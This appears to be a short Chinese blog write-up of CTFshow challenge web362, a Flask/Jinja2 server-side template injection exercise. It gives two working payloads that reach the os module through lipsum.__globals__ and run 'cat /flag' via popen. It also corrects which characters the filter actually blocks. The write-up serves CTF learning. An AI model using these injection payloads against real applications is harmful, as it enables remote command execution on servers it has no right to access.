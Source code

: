 ```yaml
---
date: 2024-06-01
categories: 
    - CTFshow
tags:
    - CTF
    - SSTI
    - flask
    - jinja2
    - python
    
---
```

# 每日一题 —— [CTFshow]web362 

> 题目地址：<https://ctf.show/challenges#web361-845>

<!-- more -->

开始过滤了，似乎过滤了中括号，以及{{}}, 所以我们使用 `{%print()%}`, 这里我们使用 `lipsum` 方法。这个方法里有 `os` 模块，所以我们直接构造出 payload :

```
?name={%print(lipsum.__globals__.get('os').popen('cat /flag').read())%}
```


---
经过各位大佬的 WP 验证， 这次并没有过滤 `{{}}`, 而是过滤了部分数字，因此无法使用之前的方法来定位到 `os` 模块。但是可以让 payload 更简化：

```
?name={{lipsum.__globals__.get('os').popen('cat /flag').read()}}
```
